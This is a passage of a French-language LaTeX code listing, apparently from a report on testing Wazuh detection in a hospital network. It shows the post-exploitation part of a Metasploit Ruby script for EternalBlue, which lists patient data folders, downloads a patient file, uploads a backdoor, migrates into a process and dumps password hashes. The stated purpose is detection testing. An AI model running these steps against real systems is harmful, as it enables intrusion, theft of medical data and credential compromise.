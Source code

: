 \begin{lstlisting}[style=bashstyle,caption=Script Metasploit pour attaque EternalBlue hospitaliere]
  if session
    puts "[+] Exploitation reussie! Session Meterpreter ouverte"
    
    # Phase 3: Post-exploitation pour tests de detection
    puts "\n[Phase 3] Post-exploitation pour validation detection"
    
    # Simulation d'activites malveillantes typiques
    commands = [
      "getuid",                                    # Identification utilisateur
      "sysinfo",                                   # Information systeme  
      "ps",                                        # Liste processus
      "dir C:\\PACS\\Images",                     # Acces donnees medicales
      "dir C:\\Medical\\Documents",               # Acces documents patients
      "download C:\\PACS\\Images\\patient_data.txt", # Exfiltration simulation
      "upload /tmp/backdoor.exe C:\\Windows\\Temp\\", # Persistance simulation
      "execute -f cmd.exe -a '/c whoami > C:\\Windows\\Temp\\whoami.txt'", # Execution commandes
      "migrate -N explorer.exe",                  # Migration processus
      "hashdump"                                   # Dump mots de passe
    ]
    
    commands.each do |cmd|
      puts "[+] Execution: #{cmd}"
      begin
        result = session.console.run_single(cmd)
        puts "    Resultat: #{result[0..100]}..." if result && result.length > 0
        
        # Attente entre commandes pour simulation realiste
        sleep(5)
      rescue => e
        puts "    Erreur: #{e.message}"
      end
    end
    
    # Phase 4: Nettoyage et cloture
    puts "\n[Phase 4] Nettoyage session de test"
    session.kill
    puts "[+] Session fermee"
    
  else
    puts "[-] Echec de l'exploitation"
  end
  
else
  puts "[-] Serveur non vulnerable ou inaccessible"
end

puts "\n[+] Test EternalBlue termine"
puts "[+] Verification des detections Wazuh en cours..."

# Attente pour permettre la correlation complete
sleep(60)

puts "[+] Fin du test - Analyse des logs recommandee"
\end{lstlisting}

